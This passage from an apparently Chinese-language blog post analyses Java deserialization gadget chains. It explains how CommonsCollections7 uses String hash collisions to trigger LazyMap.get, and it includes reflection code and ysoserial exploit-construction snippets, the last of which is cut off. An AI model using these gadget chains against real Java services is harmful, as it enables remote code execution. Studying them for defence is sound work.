 ```java
}catch(Exception e){
  keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
}
Permit.setAccessible(keyField);// 设置该Field可被访问修改
keyField.set(node, entry);// 对node实例填充key的值为TiedMapEntry实例
```

经过上面的操作，最终的HashSet实例被我们嵌入了构造好的TiedMapEntry实例。

这里在调试的过程中，发现用ysoserail的Reflections来简化exp，出来的结果有点不一样，还没有找到具体的原因。如果有师傅遇到过这种问题，欢迎一起讨论讨论！

---

### CommonsCollections7

CommonsCollections利用的是key的hash冲突的方法来触发`equals`函数，该函数会调用`LazyMap.get`函数

那么构造exp的关键就是构造一个hash冲突的LazyMap了。

这里大家可以跟一下String.hashCode函数，他的计算方法存在不同字符串相同hash的可能性，例如如下代码

![image-20191031172937969](/images/java-deserialized-commonscollections-others-20191031/image-20191031172937969.png)

CommonsCollections7用的就是这个bug来制造hash冲突。

这里需要提一点的是触发LazyMap.get函数

![image-20191031181203017](/images/java-deserialized-commonscollections-others-20191031/image-20191031181203017.png)

要走到第151行红框框上，首先需要满足的是`map`里不存在当前这个`key`

但是明显在第一次不存在这个`key`后，会更新`map`的键值，这将导致下次同样的`key`进来，就不会触发后续的payload了。我们在写exp的时候需要注意到这一点。

来看一下ysoserial的CommonsCollections7是怎么编写的！

```java
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();

// Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy", 1);

Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);

// Use the colliding Maps as keys in Hashtable
Hashtable hashtable = new Hashtable();
```